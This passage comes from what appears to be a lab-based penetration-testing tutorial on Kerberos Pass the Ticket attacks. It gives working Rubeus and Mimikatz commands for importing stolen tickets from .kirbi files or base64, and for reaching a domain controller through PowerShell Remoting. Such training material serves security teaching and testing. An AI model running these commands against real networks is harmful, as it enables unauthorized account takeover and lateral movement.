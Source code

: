 Another way is to import the ticket into the current session using the .kirbi file from the disk.

```cmd
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

```cmd
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

Finally, we can also perform the Pass the Ticket attack using the Mimikatz module kerberos::ptt and the .kirbi file that contains the ticket we want to import.

```cmd
mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

> Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.

### Pass The Ticket with PowerShell Remoting (Windows)

#### Mimikatz

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new cmd.exe and execute mimikatz.exe, then import the ticket we collected using kerberos::ptt. Once the ticket is imported into our cmd.exe session, we can launch a PowerShell command prompt from the same cmd.exe and use the command Enter-PSSession to connect to the target machine.

```cmd
mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit
powershell
Enter-PSSession -ComputerName DC01
```

#### Rubeus
